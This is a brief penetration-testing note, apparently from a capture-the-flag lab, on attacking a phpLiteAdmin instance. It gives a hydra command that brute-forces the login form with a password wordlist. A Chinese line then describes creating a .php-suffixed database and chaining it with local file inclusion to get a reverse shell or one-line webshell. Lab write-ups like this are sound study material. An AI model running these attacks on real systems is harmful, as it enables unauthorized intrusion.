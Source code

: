 # phpliteadmin

```bash
hydra 10.129.12.161 -l 0xdf -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

而后可以新建数据库.php后缀数据库，协同lfi反弹shell或者一句话
